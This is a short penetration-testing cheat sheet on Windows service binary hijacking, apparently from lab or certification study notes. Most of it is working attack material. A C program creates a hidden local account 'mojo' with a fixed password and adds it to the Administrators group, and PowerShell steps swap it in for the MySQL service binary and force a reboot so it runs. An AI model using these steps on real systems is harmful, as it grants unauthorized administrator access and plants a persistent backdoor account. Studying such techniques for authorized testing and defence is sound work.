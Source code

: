 # Service Binary Hijacking

Used when we discover we have write permissions over the binary associated with a service.

**adduser.c**

```c
#include <stdlib.h>

int main ()
{
  int i;
  i = system ("net user mojo Password123! /add");
  i = system ("net localgroup administrators mojo /add");
  return 0;
}
```

```bash
# Compile
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```powershell
# Backup and move in our new binary
mv C:\xampp\mysql\bin\mysqld.exe backups\mysqld.exe.bak
mv .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

# Restart the service if we have permissions
net stop mysql

# If denied access, check if autorestart is enabled (Auto)
Get-CimInstance -ClassName win32_service | Where-Object {$_.Name -like '$SERVICE'}
shutdown /r /t 0
```

After reboot, we can check and see that our new user has been created!

```powershell
Get-LocalUser
# mojo is visible
Get-LocalGroupMember Administrators
# mojo is visible
```